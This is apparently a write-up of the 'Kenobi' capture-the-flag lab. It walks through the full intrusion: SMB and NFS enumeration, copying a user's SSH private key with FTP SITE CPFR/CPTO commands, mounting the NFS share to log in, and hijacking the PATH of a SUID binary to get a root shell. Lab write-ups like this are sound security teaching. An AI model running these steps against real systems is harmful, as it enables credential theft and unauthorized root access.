

# Kenobi
## Scanning & Enumeration
### Nmap


We can see there's a `/var/` directory that we can mount with NFS.

### SMB


There's this `anonymous` disk we can connect to.

We try without a password and we can see that it connects and it has a `log.txt` file inside.


We get this file and if we read the contents we see the FTP configuration and at the top there's the SSH keys showing the path `/home/kenobi/.ssh`


## Exploitation
We can try to connect through ftp:

```bash
nc <IP> 21
```

And use commands to move the private key from `/home/kenobi/ssh` to inside the `/var` directory we see we can access through NFS:

```bash
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

Then all we need to do is mount the share and use the `id_rsa` file to connect to SSH.

```bash
sudo mount <IP>:/var kenobiNFS
cp kenobiNFS/tmp/id_rsa .
ssh -i id_rsa kenobi@<IP>
```

## Post-Exploitation
We can try to find files with SUID bits using the following command:

```bash
find / -perm -u=s -type f 2>/dev/null
```

Out of those, there's `/usr/bin/menu` which is a bit weird. When we execute it there's 3 options which return some information from the machine.

Let's check readable parts of the binary with:

```bash
strings /usr/bin/menu
```

We can see that for the first choice, it runs `curl` without the full path. This binary runs as `root`, so we can use this to our benefit.

We'll create a new `curl` script that will execute `/bin/sh` and when we run the `/usr/bin/menu` binary and choose the 1st option, we'll have access to `root`.



